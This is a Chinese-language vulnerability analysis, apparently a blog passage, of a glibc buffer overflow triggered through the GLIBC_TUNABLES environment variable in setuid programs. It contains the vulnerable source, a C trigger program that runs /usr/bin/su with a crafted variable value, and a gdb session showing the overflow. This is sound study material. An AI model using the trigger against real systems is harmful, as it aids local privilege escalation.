 调用该函数的代码位于该文件的__tunables_init  
函数中：  
```
void__tunables_init (char **envp){  char *envname = NULL;  char *envval = NULL;  size_t len = 0;  char **prev_envp = envp;  maybe_enable_malloc_check ();  while ((envp = get_next_env (envp, &envname, &len, &envval,                   &prev_envp)) != NULL)    {#if TUNABLES_FRONTEND == TUNABLES_FRONTEND_valstring      if (tunable_is_name (GLIBC_TUNABLES, envname))    {      char *new_env = tunables_strdup (envname);      if (new_env != NULL)        parse_tunables (new_env + len + 1, envval);      /* Put in the updated envval.  */      *prev_envp = new_env;      continue;    }#endif......}
```  
  
相关代码不长，仔细看几遍代码就能理解，理解困难的话建议加上调试，此处我就总结一下该漏洞触发的流程。  
  
1.匹配环境变量GLIBC_TUNABLES  
。  
  
2.该环境变量的值使用tunables_strdup  
函数，类似strdup  
函数，就是把字符串放到堆  
上，但是因为这个时候 libc 还没有初始化完成，所以使用的是__minimal_malloc  
。  
  
3.接着调用 parse_tunables 函数来处理GLIBC_TUNABLES  
环境变量的值。  
  
4.libc 有一个表：tunable_list，可以通过 gdb 来输出一下这个表的信息。  
  
5.当__libc_enable_secure  
启用使用，并且安全等级不是TUNABLE_SECLEVEL_SXID_ERASE  
时，会对环境变量进行一些处理，而这个处理就造成缓冲区溢出漏洞。  
  
溢出的原因请仔细阅读parse_tunables  
函数代码，这里不再展开。不过下面给出一个示例来演示一下溢出的过程，这里有一个要注意的地方：gdb 没办法直接调试 suid 的程序，需要用到一个小技巧。  
  
首先写一个中间程序：  
```
// a.c#include <unistd.h>int main(int argc, char *argv[]){  char *cmd[] = {"/usr/bin/su", "--help"};  char *envp[] = {"GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A"};    execve(cmd[0], cmd, envp);    return 0;}// gcc a.c -o a
```  
  
再编写一个.gdbinit  
文件：  
```
$ cat .gdbinitstartset follow-exec-mode newdir /usr/src/glibc/glibc-2.35/elf/b __GI___tunables_initc
```  
  
接着就能开始使用 gdb 进行调试：  
```
$ gdb a ? 0x7f43e9d6c560 <__GI___tunables_init>       endbr64# 接着找到 tunables_strdup 函数中 __minimal_malloc 的位置，找到申请的内存地址pwndbg> b *(__GI___tunables_init+511)pwndbg> c ? 0x7f43e9d6c75f <__GI___tunables_init+511>    call   __minimal_malloc                <__minimal_malloc>        rdi: 0x3apwndbg> ni*RAX  0x7f43e9d902e0 ?— 0x0# 然后断点下到 parse_tunablespwndbg> b parse_tunablespwndbg> cpwndbg> x/4s 0x7f43e9d902e00x7f43e9d902e0: "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A"0x7f43e9d90319: ""0x7f43e9d9031a: ""0x7f43e9d9031b: ""# 确认一下 __libc_enable_secure = 1pwndbg> p __libc_enable_secure$1 = 1# 接着找到 parse_tunables 结束的代码pwndbg> b *(__GI___tunables_init+729)pwndbg> cpwndbg> x/4s 0x7f43e9d902e00x7f43e9d902e0: "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A:glibc.malloc.mxfast=A:glibc.malloc.mxfast=u:glibc.malloc.mxfast=" # 缓冲区溢出0x7f43e9d9035a: ""0x7f43e9d9035b: ""0x7f43e9d9035c: ""
```  
  